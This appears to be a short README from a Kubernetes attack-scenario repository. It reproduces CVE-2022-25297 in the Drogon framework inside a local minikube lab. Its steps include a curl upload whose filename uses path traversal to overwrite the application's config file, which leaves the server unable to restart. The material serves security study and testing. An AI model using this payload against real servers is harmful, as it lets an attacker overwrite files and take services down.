 ## CVE-2022-25297
Target Application: Drogon \
Used PoCs: 
* https://security.snyk.io/vuln/SNYK-UNMANAGED-DROGONFRAMEWORKDROGON-2407243

### Tactics Used
Initial Access: Application vulnerability 

### Steps to Reproduce

1- `minikube start` \
2- `kubectl apply -f drogon-deployment.yaml` \
3- Forward port `kubectl port-forward pods/drogon.... 8848:8848` \
4- Run`curl -F "data=@fake_config.json;filename=../../../../../app/config.json" http://0.0.0.0:8848/upload_endpoint` \
5- Server restarts and can't get started. 

### Demo
[scenario-6.webm](https://github.com/HasanYldz/kubernetes-attack-scenarios/assets/56763025/a82ae8b8-fe18-4262-bda6-57bc3d245b1a)
